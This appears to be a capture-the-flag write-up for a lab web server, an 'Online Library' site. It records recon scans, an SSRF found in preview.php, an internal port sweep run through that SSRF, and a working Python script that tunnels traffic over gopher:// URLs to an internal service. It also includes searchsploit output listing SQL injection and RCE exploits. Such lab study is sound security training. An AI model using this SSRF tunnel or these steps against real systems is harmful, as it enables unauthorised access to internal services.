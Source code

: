 
<h3>Nikto</h3>

```bash
:~/Extract# nikto -h xx.xxx.xxx.xxx
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          xx.xxx.xxx.xxx
+ Target Hostname:    ip-xx-xxx-xxx-xxx.ec2.internal
+ Target Port:        80
+ Start Time:         2025-08-22 xx:xx:xx (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.58 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ 6544 items checked: 0 error(s) and 2 item(s) reported on remote host
+ End Time:           2025-08-22 xx:xx:xx (GMT1) (10 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

<h3>Nmap</h3>

```bash
:~/Extract# rustscan -a 10.201.114.233 --ulimit 5500 -- -A -Pn
...
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: TryBookMe - Online Library
```

<h3>Dirsearch</h3>

```bash
:~/Extract# dirsearch -u http://xx.xxx.xxx.xxx
...
[xx:xx:xx] 301 -  321B  - /javascript  ->  http://xx.xxx.xxx.xxx/javascript/
[xx:xx:xx] 301 -  321B  - /management  ->  http://xx.xxx.xxx.xxx/management/
...
[xx:xx:xx] 301 -  314B  - /pdf  ->  http://xx.xxx.xxx.xxx/pdf/
```

<br>

```bash
:~/Extract# dirsearch -u http://xx.xxx.xxx.xxx/management/

...
[xx:xx:xx] 302 -    0B  - /management/logout.php  ->  index.php
```

<br>

```bash
:~/Extract# dirsearch -u http://xx.xxx.xxx.xxx/pdf/

...
```

<br>

```bash
:~/Extract# dirsearch -u http://xx.xxx.xxx.xxx/javascript/

...
[xx:xx:xx] 301 -  328B  - /javascript/events  ->  http://xx.xxx.xxx.xxx/javascript/events/
```

<br>

```bash
:~/Extract# dirsearch -u http://xx.xxx.xxx.xxx/javascript/events/

...
[xx:xx:xx] 200 -    4KB - /javascript/events/events
```

<h3>Web port 80</h3>

<img width="1154" height="325" alt="image" src="https://github.com/user-attachments/assets/73f121d0-f3f9-4743-9b53-355fdf94b8d9" />

<br>
<br>

```bash
Headers
GET http://xx.xxx.xxx.xxx/preview.php?url=http://cvssm1/pdf/lorem.pdf
```

```bash
http://xx.xxx.xxx.xxx/preview.php?url=http%3A%2F%2Fcvssm1%2Fpdf%2Florem.pdf
```
http://10.10.192.34/preview.php?url=http://127.0.0.1:10000/

```bash
:~/Extract# ffuf -u 'http://10.10.192.34/preview.php?url=http://127.0.0.1:FUZZ/' -w <(seq 1 65535) -mc all -t 100 -fs 0
...
80                      [Status: 200, Size: 1735, Words: 304, Lines: 65]
10000                   [Status: 200, Size: 6131, Words: 104, Lines: 1]
```

<img width="1183" height="402" alt="image" src="https://github.com/user-attachments/assets/eebdd6e0-248a-42a3-8cbf-853f40f70640" />

<br>
<br>

<img width="1126" height="382" alt="image" src="https://github.com/user-attachments/assets/40c4f9be-a4b4-4ec9-8121-530f506cff98" />

<br>

<img width="1187" height="409" alt="image" src="https://github.com/user-attachments/assets/7691c521-93af-4027-ba74-ee379044aba9" />

<br>

#!/usr/bin/env python3

import socket
import requests
import urllib.parse
import threading

LHOST = '127.0.0.1'
LPORT = 5000
TARGET_HOST = "10.10.82.71"
HOST_TO_PROXY = "127.0.0.1"
PORT_TO_PROXY = 10000

def handle_client(conn, addr):
    with conn:
        data = conn.recv(65536)
        double_encoded_data = urllib.parse.quote(urllib.parse.quote(data))
        target_url = f"http://{TARGET_HOST}/preview.php?url=gopher://{HOST_TO_PROXY}:{PORT_TO_PROXY}/_{double_encoded_data}"
        resp = requests.get(target_url)
        conn.sendall(resp.content)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((LHOST, LPORT))
    s.listen()
    print(f"Listening on {LHOST}:{LPORT}, proxying to {HOST_TO_PROXY}:{PORT_TO_PROXY} via {TARGET_HOST}...")
    while True:
        conn, addr = s.accept()
        client_thread = threading.Thread(target=handle_client, args=(conn, addr), daemon=True)
        client_thread.start()


<h3>Searchsploit</h3>

```bash
:~/Extract# searchsploit Online Library
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                           |  Path
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Online Library Management System 1.0 - 'Search' SQL Injection                                                                            | php/webapps/50053.txt
Online Library Management System 1.0 - Arbitrary File Upload                                                                             | php/webapps/48928.txt
Online Library Management System 1.0 - Arbitrary File Upload Remote Code Execution (Unauthenticated)                                     | php/webapps/50054.py
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
